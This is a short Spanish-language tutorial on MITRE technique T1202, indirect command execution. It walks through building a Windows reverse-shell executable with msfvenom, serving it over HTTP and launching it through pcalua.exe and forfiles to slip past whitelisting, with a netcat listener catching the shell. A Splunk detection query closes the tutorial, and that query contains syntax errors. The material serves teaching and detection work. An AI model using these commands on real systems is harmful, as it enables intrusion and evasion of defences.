# **Ejecución indirecta de comandos (T1202)**

Técnica de evasion de defensa en la que un adversario intenta eludir ciertos filtros de defensa establecidosm que restringen la ejecución de ciertos scripts.

Táctica Mitre: Evasion de defensa Técnica: Ejecución de comando indirecto T1202

**Creación de un ejecutable malicioso**

```
msfvenom -p windows/shell_reverse_tcp LHOST= <IP> LPORT= <Puerto> -f exe > shell.exe
```

Cargar en la victima

```
python3 -m http. servidor 80
```





**pcalua.exe**

Es el asistente de compatibilidad de programas, se ejecuta en windows cuando detecta que un programa tiene un problema de compatibilidad. Debido a su utilidad se incluye a menudo en las listas blancas.

Se puede ejecutar un exe personalizado, shell.exe malicioso creado anteriormente.

```
pcalua.exe -a C:\Users\Public\shell.exe
```

Con netcat escuchando en kali, recibiremos la conexión cuando se ejecute el shell.

```
nc -nlvp 444
```

**Forfiles**

Selecciona y ejecuta un comando en un archivo o conjunto de archivos.

```
forfiles /p c:\windows\system32 /m calc.exe /c C:\Users\Public\shell.exe
```

/p especifica la ruta donde forfiles buscará la máscara de búsqueda definida por el indicador /m (calc.exe). Sin embargo, Después del indicador /c es el comando real. Por lo tanto, forfiles ahora ejecutará el shell.exe malicioso creado anteriormente.

# **Detección con Splunk**

**Mitre:**

Supervise y analice los registros de los mecanismos de detección basados en el host, como Sysmon, en busca de eventos como la creación de procesos que incluyen o resultan de parámetros asociados con la invocación de programas/comandos/archivos y/o generación de procesos secundarios/conexiones de red.

**Search Splunk**

Buscando forfiles y pcalua, en eventos de windows Sysmon, Evento 1(Creación de proceso).

```
index=windows source=”WinEventLog:Microsoft-Windows-Sysmon/Operational” (EventCode=1 Image=”\\forfiles.exe” CommandLine=”/c*”) O (EventCode=1 ParentImage=”\\forfiles.exe ”) index=windows source=”WinEventLog:Microsoft-Windows-Sysmon/Operational” (EventCode=1 Image=”\\pcalua.exe” CommandLine=”-a”) O (EventCode=1 ParentImage=”*\\pcalua .exe")
```